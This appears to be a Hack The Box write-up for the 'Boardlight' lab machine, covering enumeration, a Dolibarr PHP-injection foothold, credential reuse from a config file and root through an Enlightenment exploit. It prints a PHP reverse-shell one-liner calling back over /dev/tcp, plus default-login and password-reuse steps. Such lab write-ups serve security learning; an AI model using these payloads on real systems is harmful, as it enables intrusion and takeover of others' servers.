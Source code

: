 +++
title = "Boardlight"
description = "An easy rated Linux box that emphasizes and develops enumeration skills, both externally and internally. Foothold is obtained through an authenticated RCE that exploits improper input sanitization. Further enumeration reveals a plaintext password that is reused by another user, allowing escalation of privileges. Finally, root access is obtained through a zero-day exploit found in the Enlightenment Window Manager."
tags = ["writeup", "htb", "enumeration", "dolibarr", "cve", "rce"]
cover = "/images/BoardLight.png"
pubDate = 2024-11-13
toc = true
draft = false
+++


## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```

![nmap scan](/images/boardlight-nmap.webp)

This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.

![homepage](/images/boardlight-80-homepage.webp)

There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.

![contact form](/images/boardlight-80-contact-form.webp)

Good to have in our back pocket but I start running `gobuster` before doing anything else.

![gobuster](/images/boardlight-80-gobuster.webp)

We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.

![portfolio error](/images/boardlight-80-portfolio.webp)

Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.

![gobuster vhost](/images/boardlight-gobuster-vhost.webp)

That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...

![dolibarr admin login](/images/boardlight-dolibarr-login.webp)

Without even really thinking about it, I immediately tried, `admin:admin` and it worked.

![dolibarr admin page](/images/boardlight-dolibarr-admin-panel.webp)

![doh](/images/doh.gif)

Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```

![www-data user](/images/boardlight-www-data.webp)

We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.

![linpeas users](/images/boardlight-linpeas-users.webp)

If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out

![conf.php](/images/boardlight-conf-php.webp)

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!

![larissa ssh](/images/boardlight-ssh-larissa.webp)

![user flag](/images/boardlight-user.webp)

Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.

![enlightenment](/images/boardlight-linpeas-enlightenment.webp)

#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.

![boardlight-root-privesc](/images/boardlight-root-privesc.webp)

And that's a wrap.

![root](/images/boardlight-root.webp)

## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
